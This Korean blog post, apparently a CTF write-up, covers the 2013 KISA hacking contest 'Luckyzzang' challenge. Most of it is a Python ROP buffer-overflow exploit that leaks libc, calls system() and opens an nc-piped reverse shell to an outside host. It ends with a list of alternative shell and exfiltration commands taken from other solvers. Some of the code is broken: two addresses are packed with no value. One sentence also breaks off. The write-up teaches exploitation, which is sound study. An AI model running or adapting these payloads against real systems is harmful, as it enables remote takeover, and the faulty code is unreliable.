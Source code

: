 ```yaml
---
layout: post
title: KISA 해킹방어대회 2013 5번(Luckyzzang)
comments: true
---
```


```python
import socket, struct
p  = lambda x: struct.pack('<L', x)
up = lambda x: struct.unpack('<L', x)[0]

command = 'nc 192.168.99.1 3334 | /bin/bash | nc 192.168.99.1 3333'

ppppr = p(0x080489cc)
sock_fd = p(4)
send_plt = p(0x08048610)
recv_plt = p(0x080485F0)
puts_plt = p()
puts_got = p()

buffer_size = 1032

HOST = '192.168.99.133'
PORT = 7777

puts_addr = 0xb759c190
'''
payload = send_plt + 'AAAA' + sock_fd + puts_got + p(4) + p(0)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

print s.recv(6)
s.send('D' * (buffer_size + 4) + payload)

puts_addr = up(s.recv(4))

print 'puts_addr = 0x%08x' % puts_addr

s.close()
'''

system_addr = puts_addr + 0xb7e583b0 - 0xb7e7e190
print 'system_addr = 0x%08x' % system_addr

my_buf = puts_addr + 0x144e70 + 0x946
print 'my_buf = 0x%08x' % my_buf

payload  = recv_plt + ppppr + sock_fd + puts_got + p(4) + p(0)
payload += recv_plt + ppppr + sock_fd + p(my_buf) + p(4) + p(0)
payload += send_plt + 'AAAA' + p(my_buf)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

print s.recv(6)
s.send('D' * (buffer_size + 4) + payload)

print 'system_addr send'
s.send(p(system_addr))

print 'command send'
s.send(command + '\x00')

print 'wait recv'
print s.recv(1024)

s.close()
```

문제를 푸는 방법은 정말 많지만 내가 풀 방법은 매우 간단한 ROP이다. 

첫번째로 할 일은 puts의 got값을 가져오는 것이다. 해당 ROP 값을 가져왔을 

코드를 보면 구지 2번을 puts를 구해오는 소켓 한개, 공격하는 소캣 한개 해서 총 2개를 한 이유는 사용가능한 payload의 길이 때문이다.

rand() % 100 + 1025 만큼이 recv를 해오는데 ret을 덮어 씌우기 위해선 1036의 dummy가 필요하다.

rand()에 따라 사이즈가 recv하는 크기가 변동하는데 그 범위는 1025 ~ 1124이다. 최대값인 1124에서 dummy를 제외하면 88byte가 최대라는 것이다. 

따라서 payload가 짧으면 짧을 수록 좋기 때문에 이렇게 했다고 말할 수 있다.

그리고 fork를 했을때 child는 parent의 aslr을 그대로 가져 오기 때문에 사용할 수 있는 방법인 것이다.

만약 이 문제에서 stack canary가 있었더라도 child가 갖는 stack canary가 parent의 canary와 같다는 것 때문에 충분히 풀 수 있을 것이다.

다른 사람들은 명령어를 담는 buffer를 bss를 이용했는데 나는 좀 무식하게... libc.so.6의 rw-p영역의 메모리를 사용했다...(libc의 함수 주소를 가져오니 그냥 사용해도 괜찮겠다 싶어서 그랫습니다..)

그리고 command의 경우는 예전에 BOB에서 배웠던 방식을 그대로 했던 것인데 다른 풀이를 봤을때는 다음과 같은 command가 있더라.

```python
cmd = "cat key>&4\x00" # <http://blog.tunz.kr/62>
cmd = "ls |nc <IP> 10101" # <http://yumere.tistory.com/entry/2013-HDCON-5%EB%B2%88-luckyzzang-exploit>
cmd = "nc 192.168.32.43 9090 |/bin/sh |nc 192.168.32.43 9091;" # <http://blog.sweetchip.kr/321> 헉
cmd = "/bin/sh -i <&4 >&4 2>&4" # <http://gooverto.tistory.com/entry/hdcon-luckyzzang-r2dl-exploit>
# 추가 제보 부탁드립니당 ㅎㅎ
```
